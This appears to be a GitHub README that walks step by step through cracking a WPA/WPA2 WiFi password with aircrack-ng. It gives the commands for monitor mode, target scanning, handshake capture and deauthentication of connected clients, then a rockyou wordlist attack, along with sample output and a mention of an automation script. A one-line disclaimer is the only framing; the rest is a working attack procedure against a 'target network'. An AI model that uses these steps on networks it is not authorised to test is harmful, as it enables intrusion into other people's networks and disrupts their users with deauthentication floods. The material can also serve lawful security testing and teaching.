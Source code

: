 cracking WPA/WPA2 secured WiFi networks with the aircrack-ng suite

> <picture>
>   <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/light-theme/warning.svg">
>   <img alt="Warning" src="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/dark-theme/warning.svg">
> </picture><br>
> This guide is for educational purposes only and should not be used for any illegal activities. The author and publisher is not liable for any illegal use.

## Requirements

-   [Kali Linux](https://www.kali.org/get-kali)
-   [aircrack-ng suite](https://www.aircrack-ng.org) (pre-installed on Kali Linux)
-   external WiFi adapter with [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) and packet injection capabilities ([PiAEK AC-1200 mpbs](https://www.amazon.de/PiAEK-Adapter-Wireless-Verl%C3%A4ngerungskabel-Unterst%C3%BCtzung/dp/B08BHY92R4) used in this guide)
-   drivers for the external WiFi adapter ([rtl8812au](https://github.com/aircrack-ng/rtl8812au) used in this guide)
-   run `sudo su` in the shell to stay in root mode and not have to run every command with `sudo`

## Walkthrough

### Enable monitor mode

[Monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) allows the WiFi adapter to capture all WiFi packages in the air. Before enabling monitor mode, make sure the WiFi adapter is connected to the system. Check that, by running `iwconfig`. The adapter should be listed with a name like `wlan0` or `wlan1`:

```bash
wlan0     unassociated  ESSID:""  Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency=2.412 GHz  Access Point: Not-Associated
          Sensitivity:0/0
          Retry:off   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality:0  Signal level:0  Noise level:0
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

To enable monitor mode, we first need to stop processes that might interfere with the adapter:

```bash
sudo airmon-ng check kill
```

Next, we can enable monitor mode on the adapter:

```bash
sudo airmon-ng start wlan0 # replace wlan0 with the name of your adapter
```

### Look for target network

To find the target network, we can use `airodump-ng`, which is a tool from the _aircrack-ng_ suite. This tool lists all WiFi networks in the area, including their BSSID, ESSID, channel, etc.:

```bash
airodump-ng wlan0 # replace wlan0 with the name of your adapter (your adapter might have a different name after enabling monitor mode, to check run iwconfig)
```

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AA:AB:AC:AD:AE:AF  -99        5        0    0   1  100   WPA2 CCMP   PSK  myhomenetwork
```

write down the BSSID and channel of the target network.

### Capture handshake

When a device connects to a WiFi network, a so-called [handshake](https://medium.com/@hackersprey/wifi-handshake-cf1f3397a5cc) is exchanged between the device and the access point. This handshake can be captured and used to crack the WiFi password. To capture the handshake, we need to run `airodump-ng` again, but this time we need to specify the BSSID and channel of the target network:

```bash
airodump-ng -d AA:AB:AC:AD:AE:AF -c 1 --write handshake wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network, 1 with the channel of the target network and wlan0 with the name of your adapter
```

this command starts listening for the handshake. Once a device connects to the target network, the handshake will be captured and saved to a file called `handshake-01.cap`. An indicator will show when the handshake is captured; it will appear on the first line after the date and time (you can safely stop the process with `Ctrl + C` after the handshake was captured):

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55 ][ WPA handshake: AA:AB:AC:AD:AE:AF
```

Optionally, you can speed up the process by deauthenticating all device currently connected to the target network and forcing them to reconnect and establish a new handshake:

```bash
# --deauth specifies the number of deauthentications to send (5 in this case)
aireplay-ng --deauth 5 -a AA:AB:AC:AD:AE:AF wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network and wlan0 with the name of your adapter
```

### Crack the password

To crack the password, we need to use a wordlist. A wordlist is a list of possible passwords that will be tried one by one until the correct password is found. In this guide, we will use the `rockyou.txt` wordlist, which is a popular wordlist that comes pre-installed on Kali Linux. To crack the password, we need to run `aircrack-ng` and specify the wordlist and the captured handshake:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap
```

```
                               Aircrack-ng 1.7

      [00:00:08] 40629/14344392 keys tested (4797.50 k/s)

      Time left: 49 minutes, 41 seconds                          0.28%

                           KEY FOUND! [ test1234 ]


      Master Key     : 8F 5D 7E B8 B7 72 54 75 43 E7 BE 33 66 36 DC C6
                       C6 99 AB 2B E6 5D C6 C1 40 B8 BD 66 52 A6 4A F4

      Transient Key  : 32 2B 40 BA 56 02 E0 2D E9 25 B4 89 AE D8 58 5A
                       08 73 1D 09 BD AE 94 B7 ED 14 9F BE 58 B5 30 85
                       65 C1 ED 9C C9 33 08 DA 83 84 99 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : B7 D9 4F 14 7A 29 6F 3E B3 5C F8 E5 C0 F8 E1 EF
```

And Voila! The password was cracked in only **8 seconds** after testing **40629** other passwords. In this case, the password was `test1234`.

## Script automation

Because the process of capturing the handshake is always the same and can be quite tedious, I've automated the process with a simple [bash script](dump.sh). It takes two parameters:

1. (required) the name of the target network
1. (optional) the name of the adapter - default: wlan0

it does all the steps until capturing the handshake and throws you directly into the _airodump-ng_ target network sniff. You only have to wait for the handshake to be captured and then run the _aircrack-ng_ command to crack the password.

<br><br>

_credits to:_

> [The Morpheus Tutorials](https://youtu.be/GLmpLeghM2Y)

